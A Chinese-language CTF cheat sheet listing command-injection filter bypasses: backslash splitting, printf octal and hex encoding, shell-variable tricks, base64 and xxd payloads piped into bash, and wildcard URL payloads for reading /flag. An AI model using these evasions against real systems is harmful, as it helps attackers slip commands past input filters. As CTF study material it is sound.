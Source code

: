 

#### **反斜杠绕过**

```php
cat /fla\g
```



#### **编码绕过**

```php
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
```



#### **利用shell特殊变量绕过**

```php
l$@s
l$*s
l$1s
```



#### 利用base64编码绕过

```php
echo 'cat /flag' |base64
echo 'Y2F0IC9mbGFnCg==' | base64 -d |bash
```



#### **Hex编码绕过**

```php
echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")         执行cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0       执行cat /flag
```



#### **通配符绕过**

```php
假设flag在/flag中:
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*
    
假设flag在/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla????
/?url=127.0.0.1|ca""t%09/fla*
    
假设flag在/flags/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla??/fla????
/?url=127.0.0.1|ca""t%09/fla*/fla*

payload1: /???/?[a][t] '?''?''?''?'
payload2: /???/?at flag
payload3: /???/?at ????
payload4: /???/?[a]''[t] ?''?''?''?''
```
